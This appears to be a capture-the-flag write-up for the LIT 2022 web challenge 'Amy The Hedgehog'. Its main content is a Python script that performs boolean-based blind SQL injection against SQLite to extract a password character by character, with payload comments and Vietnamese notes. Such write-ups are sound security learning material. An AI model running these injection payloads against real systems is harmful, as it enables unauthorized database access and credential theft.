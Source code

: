 ```yaml
---
description: 'Note : A JOURNEY TO GAIN KNOWLEDGE'
---
```


# LIT 2022

## web/Amy The Hedgehog

![](<../../.gitbook/assets/image (43).png>)

```
import requests, string

url = "http://litctf.live:31770/"
s = requests.session()
passwordRetrieve = ""
# ' or (SELECT hex(substr(sql,1,1)) FROM sqlite_master WHERE type = 'table' AND tbl_name = 'names') = hex('some_char')--
# find column from table: ' or (SELECT hex(substr(sql,{index},1)) FROM sqlite_master WHERE type = 'table' AND tbl_name = 'names') = hex('{char}')-- 
alpha = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~ \t\n\r\x0b\x0c"
def solve():
    global passwordRetrieve
    index = 1
    len_of_password = 14 - index
    for i in range(len_of_password):
        for char in alpha:
          passwordfield = f"' or (SELECT hex(substr(name,{index},1)) FROM names) = hex('{char}')--"
          postParam = {'name': passwordfield}
          response = s.post(url, data=postParam).text
          if "You got it"  in response:
              passwordRetrieve += char
              index += 1
              print("Nai here yr pass: ",passwordRetrieve, "  len:",i)
              break
          print(char)
solve()
```

* Xác định SQLite -> sqlite\_master -> tbl\_name -> column -> name
* [doc1](https://freetuts.net/lenh-select-trong-sqlite-1731.html)
* [doc2](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#boolean---count-number-of-tables)

![](<../../.gitbook/assets/image (30).png>)
